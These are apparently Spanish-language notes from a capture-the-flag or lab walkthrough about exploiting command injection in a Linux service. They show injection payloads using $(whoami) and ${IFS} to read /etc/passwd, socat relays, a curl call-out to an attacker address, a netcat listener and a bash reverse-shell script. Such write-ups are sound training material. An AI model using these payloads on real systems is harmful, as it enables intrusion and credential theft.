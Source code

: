==Parce ser que el servicio es una aplicación de Linux que admite comandos, ese será nuestro vector de ataque.

```
--help
```

![[Captura de pantalla 2023-06-23 141107.png]]

```
$(whoami)
```



![[Captura de pantalla 2023-06-23 141455.png]]

==Los comandos muestran el output de la máquina incompletos, jugando con diferentes métodos de Shell code el siguiente comando con IFS parece mostrarnos la respuesta de DMV completa 

```
<`cat${IFS}/etc/passwd`

```


![[Captura de pantalla 2023-06-23 142432.png]]

==Lo comprobamos visualizando el documento/etc/passwd de manera completa.

==Lo siguiente es intentar una comunicación hacia nuestra máquina con ayuda de socat y levantando un http.server en nuestro equipo local.

```
socat TCP-LISTEN:4545,fork TCP:192.168.153.129:2323
Python3 -m http.server 2323
```


![[Captura de pantalla 2023-06-23 143243.png]]


```
<`curl${IFS}10.10.18.128:4545`

```

![[Captura de pantalla 2023-06-23 143310.png]]

```
socat TCP-LISTEN:4545,fork TCP:192.168.153.129:2324
socat TCP-LISTEN:1212,fork TCP:192.168.153.129:3131
python3 -m http.server 2324
sudo nc -nlvp 3131
```

```
#!/bin/bash

bash -i >& /dev/TCP/10.10.18.128\1212 

```
